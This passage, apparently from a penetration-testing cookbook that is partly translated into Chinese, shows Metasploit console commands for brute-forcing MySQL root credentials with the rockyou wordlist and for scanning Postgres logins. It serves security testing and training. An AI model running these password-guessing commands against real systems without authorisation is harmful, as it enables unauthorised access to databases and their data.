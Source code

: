 1.  Once you are on the Metasploit console, enter the following commands:

    ```
          use auxiliary/scanner/mysql/mysql_login
          set username root
          set stop_on_success true
          set rhosts <Target IP address>
          set pass_file /usr/share/wordlists/rockyou.txt
          exploit

    ```

    输出将如以下屏幕截图所示：

    ![How to do it...](img/image_04_025.jpg)

2.  Once this is done, wait for the script to finish. In this case, since we have given a command to stop on success, once we find the right password it will stop execution of the script. The output will be as shown in the following screenshot:

    ![How to do it...](img/image_04_026.jpg)

3.  Now let's try and crack the Postgres credentials. Enter the following in the Metasploit terminal:

    ```
          use auxiliary/scanner/postgres/postgres_login
          set rhosts <Target IP address>
          run

    ```

    扫描仪将启动，任何成功的尝试都将以绿色突出显示。请查看以下屏幕截图：
